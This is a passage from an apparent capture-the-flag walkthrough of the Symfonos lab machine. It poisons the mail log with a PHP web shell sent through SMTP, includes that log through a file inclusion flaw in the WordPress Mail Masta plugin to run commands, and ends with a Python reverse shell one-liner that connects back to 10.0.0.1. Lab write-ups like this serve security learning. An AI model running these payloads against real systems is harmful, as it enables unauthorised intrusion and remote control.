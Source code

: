 ```
MAIL FROM:<Muzec@hacker.com>
RCPT TO:<?php system($_GET['cmd']); ?>
```

Note: We can ignore the 501 5.1.3 Bad recipient address syntax server response as seen in the above screenshot because ideally the internal email program of the server (victim machine), is expecting us to input an email ID and not the OS commands.

```
http://symfonos.local/h3l105//wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios
```

Now we can see the logs.

![image](https://user-images.githubusercontent.com/69868171/156567980-17821be5-cd69-44b2-b6db-8633fe23ee49.png)

Now let try to execute a command.

```
http://symfonos.local/h3l105//wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=id
```

![image](https://user-images.githubusercontent.com/69868171/156568137-a02a6026-f64c-4d9e-a05f-2460f95b72df.png)

Now we have RCE let get a reverse shell back to our terminal using `python` .

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

